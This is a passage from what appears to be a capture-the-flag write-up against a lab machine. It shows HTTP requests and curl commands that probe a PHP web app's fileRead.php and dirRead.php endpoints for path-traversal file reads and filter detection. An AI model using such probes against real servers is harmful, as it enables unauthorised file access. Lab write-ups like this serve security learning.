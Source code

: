     
    [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
    

#### fileRead.php

With an idea of the files and where they are, reading files seems like the
next place to check out. The request passes a `file` parameter:

    
    
    POST /fileRead.php HTTP/1.1
    Host: 10.10.10.87
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.87/list.html
    Content-type: application/x-www-form-urlencoded
    Content-Length: 18
    Connection: close
    
    file=./.list/list1
    

The the response gives what looks like the content of the file:

    
    
    HTTP/1.1 200 OK
    Server: nginx/1.12.2
    Date: Mon, 06 Aug 2018 21:51:22 GMT
    Content-Type: application/json
    Connection: close
    X-Powered-By: PHP/7.1.16
    Content-Length: 71
    
    {"file":"{\"1\":\"Enumerate<br>\",\"2\":\"...\",\"3\":\"Profit<br>\"}"}
    

### Arbitrary File Read

With those two functions, I can get to get arbitrary directory listing and
file reads.

#### Detecting Filters

I already showed that doing a directory read on `/` returns the html root, not
the box root. Can I just use `../`? Well, no:

    
    
    root@kali# curl -X POST -d "path=/" http://10.10.10.87/dirRead.php
    [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
    
    root@kali# curl -X POST -d "path=/../" http://10.10.10.87/dirRead.php
    [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
    
